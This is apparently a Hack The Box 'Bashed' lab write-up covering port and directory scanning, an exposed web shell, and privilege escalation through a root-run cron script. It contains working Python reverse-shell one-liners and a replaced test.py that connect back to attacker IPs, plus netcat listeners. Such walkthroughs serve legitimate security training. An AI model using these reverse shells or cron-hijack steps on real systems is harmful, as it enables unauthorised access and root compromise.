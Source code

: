 ### Bashed

Machine ip: 10.10.10.68

## Scanning

### Nmap Scanning

```bash
$ cat nmap/initial.nmap  
# Nmap 7.91 scan initiated Thu Aug 19 16:10:22 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.099s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 16:10:34 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

- Home page

![homepage](images/homepage.PNG)

- No other pages seem to work, so run dirbuster

- on running `dirbuster`, found following directories and files

```bash
$ Starting OWASP DirBuster 1.
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
```

- Out of all `/dev` seems to be interesting and on opening the directory found `phpbash.php` which is running on lightweight bash on the browser.
- Create a reverse shell to connect back to kali machine

__Reverse shell__

```bash
www-data@bashed: /usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 55660
$ ls
ls
bin   etc	  lib	      media  proc  sbin     sys  var
boot  home	  lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv	    usr
```


## Privilege Escalation

- on running `sudo -l`

```bash
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

- running/switching `scriptmanager` user

```bash
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ ls
```

- found a schedules task in `/scripts/test.py` which is run by root
- change the contents and place the reverse shell in place of `test.py` content


- `test.py` after  modifying
```bash
#!/usr/bin/python

import os


import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",4242))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp  4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 52878
# id
id
uid=0(root) gid=0(root) groups=0(root)
```






